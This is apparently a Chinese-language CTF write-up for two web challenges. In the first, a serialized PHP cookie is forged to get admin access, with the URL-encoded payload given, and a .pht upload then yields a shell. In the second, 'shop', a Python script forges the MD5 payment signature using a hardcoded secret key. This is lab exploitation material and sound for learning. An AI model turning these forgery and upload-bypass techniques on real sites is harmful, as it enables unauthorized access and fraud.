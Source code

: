 找到xjb学长的github里项目的介绍

>It's just a system which is not completed , there are some tips:
>
>1. you can use test/cib_sec to login ,but you are not admin!
>2. only admin can upload file ,but whichone can not bypass my rules.
>
>```
>/**
>$sign = array(
>                    'id'=>$model->id,
>                    'name'=>$model->username,
>                    'sign'=>md5($model->id.$model->username),
>                );
>$_COOKIE['Cib_security'] = serialize($sign);
>**/
>```

先test/cib_sec登录，cookie反序列化获得admin权限

![FdRh9I.png](https://s1.ax1x.com/2018/12/16/FdRh9I.png)

`a%3a3%3a%7bs%3a2%3a%22id%22%3bi%3a1%3bs%3a4%3a%22name%22%3bs%3a5%3a%22admin%22%3bs%3a4%3a%22sign%22%3bs%3a32%3a%226c5de1b510e8bdd0bc40eff99dcd03f8%22%3b%7d` 

上传pht绕过得到shell

#### shop

安恒月赛原题

阅读源码，伪造交易只需要sign和信息对应，于是使用admin账户购买，数据库文件中可获取admin的id

```
import hashlib

form = {
    'order_id': '130',   
    'buyer_id': '16',  # 管理员ID
    'good_id': '38',   # flag商品的ID
    'buyer_point': '250',
    'good_price': '50',
    'order_create_time': '1544797474.153053'
}
RANDOM_SECRET_KEY_FOR_PAYMENT_SIGNATURE = 'zhinianyuxin\n'.encode('utf-8')
str2sign = RANDOM_SECRET_KEY_FOR_PAYMENT_SIGNATURE + '&'.join([f'{i}={form[i]}' for i in form]).encode('utf-8')
sign = hashlib.md5(str2sign).hexdigest()
print(sign)
```

注意signature有换行符23333抓包修改信息即可

![FdRRNd.png](https://s1.ax1x.com/2018/12/16/FdRRNd.png)
